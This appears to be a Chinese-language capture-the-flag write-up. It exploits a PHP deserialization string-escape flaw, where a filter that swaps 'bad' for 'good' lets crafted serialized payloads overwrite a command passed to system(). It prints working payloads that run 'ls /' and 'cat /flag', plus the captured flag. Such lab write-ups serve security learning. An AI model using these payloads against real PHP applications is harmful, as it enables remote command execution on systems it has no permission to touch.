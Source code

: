 ## 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key']))));
```

经过查资料，发现本题是采用 **字符串逃逸**

```php
function waf($str){
    return str_replace("bad","good",$str);
}
```

这段代码由`bad`-> `good`每次会使字符的数量增加一

```php
O:7:"GetFlag":2:{s:3:"key";s:1:"a";s:3:"cmd";s:6:"whoami";}
```

变换

```php
O:7:"GetFlag":2:{s:3:"key";s:1:"a";s:3:"cmd";s:4:"ls /";};s:3:"cmd";s:6:"whoami";}

# 添加的内容

s:3:"cmd";s:4:"ls /";}
```

```
O:7:"GetFlag":2:{s:3:"key";s:88:"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";};s:3:"cmd";s:6:"whoami";}
```

上传发现根目录并没有什么，于是我们`ls`一下当前目录发现可以执行

```
s:3:"cmd";s:9:"cat /flag";}";
#一共29个字符，需要29个bad
```

使用cat

```flag
O:7:"GetFlag":2:{s:3:"key";s:117:""badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}";s:3:"cmd";s:6:"whoami";}
```



最后得到flag：

```
flag{345783c7-c70a-4331-a5fa-0e0ce04c02d2}
```



> 参考：
>
> https://blog.csdn.net/qq_66013948/article/details/134116569
>
> https://blog.csdn.net/2301_76690905/article/details/134100324
>
> https://blog.csdn.net/m0_73512445/article/details/133694293